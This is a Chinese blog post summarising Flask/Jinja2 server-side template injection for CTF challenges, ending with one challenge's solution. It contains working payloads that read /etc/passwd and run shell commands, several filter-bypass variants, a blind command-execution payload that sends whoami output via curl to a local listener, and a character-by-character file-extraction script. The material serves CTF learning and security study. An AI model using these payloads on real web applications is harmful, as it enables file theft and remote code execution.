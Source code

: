 ```yaml
---
layout: post
title:  "flask框架ssti ctf利用小结"
subtitle: 'flask框架ssti ctf利用小结'
date:   2020-04-08 18:00:00
tags: SSTI CTF WEB安全 
description: 'SSTI CTF WEB安全'
color: 'RGB(205,85,85)'
cover: 'https://i.loli.net/2020/04/08/SI4Y9qUnHKrLV3z.jpg' 
---
```


#### 前言
闲着刷攻防世界题目的时候遇到一个题目，打开一看可以明显感觉到是服务器模板注入（SSTI），对漏洞原理倒是了解，但是payload构造却难住了，搜索相关资料后做一个记录，加固理解并分享。

#### 题目源码


#### 服务端模板注入
当web应用使用模板系统（如twig，jinja2等），在网页中插入动态内容。当输入内容被恶意控制时，就会产生该漏洞。

#### 在python如何利用ssti攻击
在python中，object类是Python中所有类的基类，如果定义一个类时没有指定继承哪个类，则默认继承object类。

```
>>> print("".__class__)
>>> <class 'str'>
```
对于一个空字符串他已经打印了str类型，在python中，每个类都有一个bases属性，列出其基类。

```
>>> print("".__class__.__bases__)
(<type 'basestring'>,)
>>> print("".__class__.__base__.__base__)
<type 'object'>
>>> print("".__class__.__mro__)
(<type 'str'>, <type 'basestring'>, <type 'object'>)
```
这样就找到了他的基类object。也可以通过mro（解析方法调用的顺序）进行查找。
在flask ssti中poc中很大一部分是从object类中寻找我们可利用的类的方法。

```
>>> print("".__class__.__mro__[2].__subclasses__())
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'sys.getwindowsversion'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'nt.stat_result'>, <type 'nt.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'functools.partial'>, <type 'MultibyteCodec'>, <type 'MultibyteIncrementalEncoder'>, <type 'MultibyteIncrementalDecoder'>, <type 'MultibyteStreamReader'>, <type 'MultibyteStreamWriter'>]
```
使用subclasses()方法（返回的是这个类的子类的集合），返回object类子类的集合
接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。
瞅了一圈没找到。
尝试初始化了一些变量，但是没找到想要的东西，可能是因为是python2.7的缘故或者windows环境问题

```
print(object.__subclasses__()[61].__init__.__globals__)
```
不过问题不大，这里的主要目的明白即可。
==通过基类找到可以执行命令或者文件操作的类，然后找具体函数调用即可。==

一些payload
```
# object.__subclasses__()[40]为file类
object.__subclasses__()[40]('/etc/passwd').read()
# object.__subclasses__()[59].__init__.func_globals.linecache下直接有os类
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()

```

然后就需要在ctf中各种过滤

##### 过滤中括号

```
使用__getitim__绕过中括号限制
request.__class__.__mro__.__getitem__(8)
```


##### 过滤引号

```
先获取chr函数，赋值给chr，后面拼接字符串
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
借助request对象
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
执行命令
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
```

##### 过滤双下划线

```
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

##### 过滤大括号

```
利用标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
相当于盲命令执行，利用curl将执行结果带出来
读取文件可以利用盲注的方法逐位将内容爆出来
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}
使用盲注脚本修改一下即可
# -*- coding: utf-8 -*-
import requests


url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

#### 题解
这个ctf题目过滤了括号，还加了黑名单[config , self ]  
这里就又涉及到另外一个知识  
flask 中内置的的变量函数  

##### flask 中内置的的变量函数  
```
config ：可以从模板中直接访问Flask当前的config对象：{{config.SQLALCHEMY_DATABASE_URL}}

request : 就是flask中代表当前请求的request对象 ， {{request.url}}

session :为Flask的session对象 ,{{session.new}} True

g变量：在视图函数中设置g变量的那么属性的值，然后再模板中直接可以取出{{g.name}}

url_for() : url_for会根据传入的路由器函数名，返回该路由的URL，在模板中始终使用url_for（）就可以安全的修改路由绑定的URL，则不必担心模板中渲染错的连接，{{url_for('home')}} ，如果我们定义的路由URL是带有参数的，则可以把他们作为关键字参数传入url_for（），Flask会把他们填充进最终生成的URL中，{{url_for('post',post_id=1)}}

get_flashed_messages():这个函数会返回之前在flask中通过flask（）传入的消息的列表，flash函数的作用很简单，可以把由Python字符串表示的信息加入一个消息队列中，在使用get_flashed_message()函数取出他们并消费掉


{%for message in get_flashed_messages()%}
{{message}}
{% endfor %}
```

##### payload
最后构造出如下payload

```
{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

#### 各类ssti的一些模板渲染引擎及利用
![7.png](https://xzfile.aliyuncs.com/media/upload/picture/20181221165627-4d167624-04fe-1.png)
#### 参考链接
https://xz.aliyun.com/t/3679  
https://p0sec.net/index.php/archives/120/